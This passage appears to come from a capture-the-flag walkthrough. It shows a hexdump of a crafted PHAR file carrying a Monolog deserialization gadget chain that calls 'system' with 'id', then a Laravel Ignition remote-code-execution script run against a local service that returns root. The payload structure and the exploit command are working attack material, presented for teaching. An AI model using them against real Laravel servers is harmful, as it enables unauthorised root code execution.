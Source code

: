 This creates a serialized PHP file, which I saved as `id.phar`. The file looks like a PHP object:

```

oxdf@hacky$ xxd id.phar 
00000000: 3c3f 7068 7020 5f5f 4841 4c54 5f43 4f4d  <?php __HALT_COM
00000010: 5049 4c45 5228 293b 203f 3e0d 0abd 0100  PILER(); ?>.....
00000020: 0002 0000 0011 0000 0001 0000 0000 0066  ...............f
00000030: 0100 0061 3a32 3a7b 693a 373b 4f3a 3332  ...a:2:{i:7;O:32
00000040: 3a22 4d6f 6e6f 6c6f 675c 4861 6e64 6c65  :"Monolog\Handle
00000050: 725c 5379 736c 6f67 5564 7048 616e 646c  r\SyslogUdpHandl
00000060: 6572 223a 313a 7b73 3a39 3a22 002a 0073  er":1:{s:9:".*.s
00000070: 6f63 6b65 7422 3b4f 3a32 393a 224d 6f6e  ocket";O:29:"Mon
00000080: 6f6c 6f67 5c48 616e 646c 6572 5c42 7566  olog\Handler\Buf
00000090: 6665 7248 616e 646c 6572 223a 373a 7b73  ferHandler":7:{s
000000a0: 3a31 303a 2200 2a00 6861 6e64 6c65 7222  :10:".*.handler"
000000b0: 3b72 3a33 3b73 3a31 333a 2200 2a00 6275  ;r:3;s:13:".*.bu
000000c0: 6666 6572 5369 7a65 223b 693a 2d31 3b73  fferSize";i:-1;s
000000d0: 3a39 3a22 002a 0062 7566 6665 7222 3b61  :9:".*.buffer";a
000000e0: 3a31 3a7b 693a 303b 613a 323a 7b69 3a30  :1:{i:0;a:2:{i:0
000000f0: 3b73 3a32 3a22 6964 223b 733a 353a 226c  ;s:2:"id";s:5:"l
00000100: 6576 656c 223b 4e3b 7d7d 733a 383a 2200  evel";N;}}s:8:".
00000110: 2a00 6c65 7665 6c22 3b4e 3b73 3a31 343a  *.level";N;s:14:
00000120: 2200 2a00 696e 6974 6961 6c69 7a65 6422  ".*.initialized"
00000130: 3b62 3a31 3b73 3a31 343a 2200 2a00 6275  ;b:1;s:14:".*.bu
00000140: 6666 6572 4c69 6d69 7422 3b69 3a2d 313b  fferLimit";i:-1;
00000150: 733a 3133 3a22 002a 0070 726f 6365 7373  s:13:".*.process
00000160: 6f72 7322 3b61 3a32 3a7b 693a 303b 733a  ors";a:2:{i:0;s:
00000170: 373a 2263 7572 7265 6e74 223b 693a 313b  7:"current";i:1;
00000180: 733a 363a 2273 7973 7465 6d22 3b7d 7d7d  s:6:"system";}}}
00000190: 693a 373b 693a 373b 7d05 0000 0064 756d  i:7;i:7;}....dum
000001a0: 6d79 0400 0000 af3f 0861 0400 0000 0c7e  my.....?.a.....~
000001b0: 7fd8 a401 0000 0000 0000 0800 0000 7465  ..............te
000001c0: 7374 2e74 7874 0400 0000 af3f 0861 0400  st.txt.....?.a..
000001d0: 0000 0c7e 7fd8 a401 0000 0000 0000 7465  ...~..........te
000001e0: 7374 7465 7374 d9ed c52a 4925 ac5f 19e8  sttest...*I%._..
000001f0: 09c7 8a82 9975 1ffa 2a30 0200 0000 4742  .....u..*0....GB
00000200: 4d42

```

The command, `id`, is on line 0x000000f0.

Now I’ll run the Python script, passing it the serialized payload:

```

oxdf@hacky$ python3 /opt/laravel-exploits/laravel-ignition-rce.py http://127.0.0.1:8000 id.phar 
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
uid=0(root) gid=0(root) groups=0(root)
--------------------------
+ Logs cleared

```
